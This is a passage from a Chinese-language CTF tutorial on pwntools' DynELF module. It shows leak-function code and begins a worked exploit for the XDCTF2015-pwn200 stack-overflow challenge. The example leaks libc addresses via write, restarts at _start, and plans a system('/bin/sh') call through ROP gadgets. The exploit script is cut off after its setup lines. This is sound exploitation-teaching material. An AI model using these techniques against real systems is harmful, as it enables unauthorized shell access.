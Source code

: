 	    else:
	      buf += c
	    up = c #当前字符变为上一个字符

      data = buf[:4]  #取指定字节数
      log.info("%#x => %s" % (address, (data or '').encode('hex')))
      return data

**②puts输出完后还有其他输出**，在这种情况下的leak函数可以这么写。

    def leak(address):
      count = 0
      data = ""
      payload = xxx
      p.send(payload)
      print p.recvuntil("xxx\n")) #一定要在puts前释放完输出，接下来处理puts的内容
      up = ""
      while True:
	    c = p.recv(1)
	    count += 1
	    if up == '\n' and c == "x":  #一定要找到泄漏信息的字符串特征
	      data = buf[:-1] 
	      data += "\x00"
	      break
	    else:
	      buf += c
	    up = c
   
      data = buf[:4] 
      log.info("%#x => %s" % (address, (data or '').encode('hex')))
      return data


**其他需要注意的地址：**
在信息泄露过程中，**由于循环制造溢出，故可能会导致栈结构发生不可预料的变化，可以尝试调用目标二进制程序的_start函数来重新开始程序以恢复栈**。
[DynELF模块的leak是要多次溢出，直到确定是所需的符号地址才结束]

#### 具体示例：XDCTF2015-pwn200 ####

本题是**32位linux**下的二进制程序，无cookie，**存在很明显的栈溢出漏洞，且可以循环泄露**，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只**简要说一下借助DynELF实现利用的要点**：

-  1）调用write函数来泄露地址信息，比较方便；
-  2）**32位linux下可以通过布置栈空间来构造函数参数，不用找gadget**，比较方便[与64位系统不同，32位下函数参数只用放在栈中。需要向寄存器传参的要找**gadget**]；
-  3）在**泄露完函数地址后，需要重新调用一下_start函数，用以恢复栈**；
-  4）在实际**调用system前，需要通过三次pop操作来将栈指针指向systemAddress[消除read(0，bssaddress,8)写"/bin/sh"到bss的3个参数]**，可以使用ropper或ROPgadget来完成。

接下来就直接给出利用代码。

    from pwn import *
    import binascii
    p = process("./xdctf-pwn200")
    elf = ELF("./xdctf-pwn200")
    writeplt = elf.symbols['write']
    writegot = elf.got['write']
    readplt = elf.symbols['read']
    readgot = elf.got['read']
    vulnaddress =  0x08048484 
    startaddress = 0x080483d0  #调用_start函数，用以恢复栈平衡
    bssaddress =   0x0804a020#用来写入“/bin/sh\0”字符串
